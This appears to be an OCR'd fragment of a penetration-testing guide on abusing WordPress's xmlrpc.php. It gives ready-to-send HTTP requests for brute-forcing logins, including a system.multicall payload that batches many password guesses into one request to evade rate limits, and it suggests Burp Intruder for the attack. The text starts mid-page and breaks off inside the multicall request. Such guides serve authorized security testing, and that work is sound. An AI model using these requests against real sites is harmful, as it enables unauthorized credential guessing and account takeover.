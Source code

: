 ~~~
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
~~~

PostBin Output:

XML RPC DDOS attack, port scanning, xmlrpc.php, wordpress

### Brute force attacks
Sometimes the only way to bypass request limiting or blocking in a brute force attack against WordPress site is to use the all too forgotten XML-RPC API.

The following request represents the most common brute force attack:
~~~
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
~~~
The above request can be sent in Burp Intruder (for example) with different sets of credentials. Note that, even if you guess the password or not, the response code will always be 200. I highly recommend looking for errors/messages within the body of the response.

Worried about sending way to much requests against the target? - No worries. WordPress XML-RPC by default allows an attacker to perform a single request, and brute force hundreds of passwords.

The following request requires permissions for both system.multicall and wp.getUsersBlogs methods:
~~~
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

~~~